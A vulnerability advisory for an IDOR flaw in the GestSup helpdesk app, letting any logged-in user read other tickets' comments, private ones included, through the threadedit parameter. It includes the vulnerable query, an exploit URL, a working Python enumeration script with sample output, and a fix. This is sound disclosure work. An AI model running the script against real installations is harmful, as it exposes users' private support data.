


# CVE-2026-102373: GestSup

**Disclosure of all ticket comments via the `threadedit` parameter**

**Severity:** High · **Class:** IDOR · **Fixed in:** 3.2.62

## Summary

An authenticated user can open a ticket they have access to, then use the `threadedit` parameter to load a comment belonging to a different ticket. Comment ids are incremental, so the user can enumerate them and retrieve the comments of every other ticket, including those marked as private.

## Prerequisites

1. An account on the application
2. At least one open ticket the account has access to (the user can create a ticket themselves in order to exploit the vulnerability)

## Root cause

In `html/thread.php`, the comment is fetched from the id supplied in `threadedit` alone:

```php
$qry=$db->prepare("SELECT `text` FROM `tthreads` WHERE `id`=:id AND `type`='0'");
$qry->execute(array('id' => $_GET['threadedit']));
```

The query does not check that the comment belongs to the ticket currently being viewed. The `private` field is not checked either.

The application therefore controls access to the ticket passed in `id`, but then displays an unrelated comment selected by `threadedit`.

## Proof of concept

The test user only has access to ticket `1`:



They can nevertheless load comment `6`, which belongs to another ticket, with the following URL:

```text
/index.php?page=ticket&id=1&threadedit=6
```

The comment appears in the edit field:



By varying the value of `threadedit`, a user can enumerate the comments present in the database. [This script](./poc/exploit.py) does it:

```py
from requests import Session

URL = "http://localhost:9001" # base url
COOKIES = {
    "COOKIE_NAME": "COOKIE_VALUE" # the user's gestsup cookie
}
TICKET_ID = "1" # id of a ticket the user has access to

session = Session()
session.cookies.update(COOKIES)

for i in range(1, 100):
    r = session.get(
        f"{URL}/index.php?page=ticket&id={TICKET_ID}&threadedit={i}"
    )
    try:
        comment = r.text.split('<div id="editor2" class="pl-2 pt-1 bootstrap-wysiwyg-editor" style="min-height:80px; min-width:250px; max-width:575px;" >')[1].split('</div>')[0].strip()
        if comment:
            print(f"Comment {i}: {comment}")
    except IndexError:
        continue
```

The output shows the comments of other tickets:
```text
Comment 3: Comment of ticket A
Comment 6: Confidential comment of ticket B
Comment 9: Highly confidential comment of ticket C
Comment 10: Administrator reply to ticket C ;)
```

## Impact

A plain authenticated user can read ticket exchanges that do not belong to them. Those comments can contain personal data, technical information, internal exchanges, or secrets sent to the support team.

The leak covers type `0` comments, including the ones marked private. The attack is easy to automate, since their ids are incremental.

## Mitigation

The query must check that the comment belongs to the current ticket:

```php
$qry=$db->prepare(
    "SELECT `text`, `private`
     FROM `tthreads`
     WHERE `id`=:thread_id
       AND `ticket`=:ticket_id
       AND `type`='0'"
);
$qry->execute([
    'thread_id' => $_GET['threadedit'],
    'ticket_id' => $_GET['id'],
]);
$thread=$qry->fetch();
```

Display must then be refused if the comment does not exist, or if it is private and the user does not hold the matching right:

```php
if (!$thread || ($thread['private'] && !$rright['ticket_thread_private'])) {
    $thread_text='';
} else {
    $thread_text=$thread['text'];
}
```

## References

- https://nvd.nist.gov/vuln/detail/CVE-2026-102373
- https://blog.spiizn.xyz/articles/remote-code-execution-turning-a-ticket-into-a-new-issue/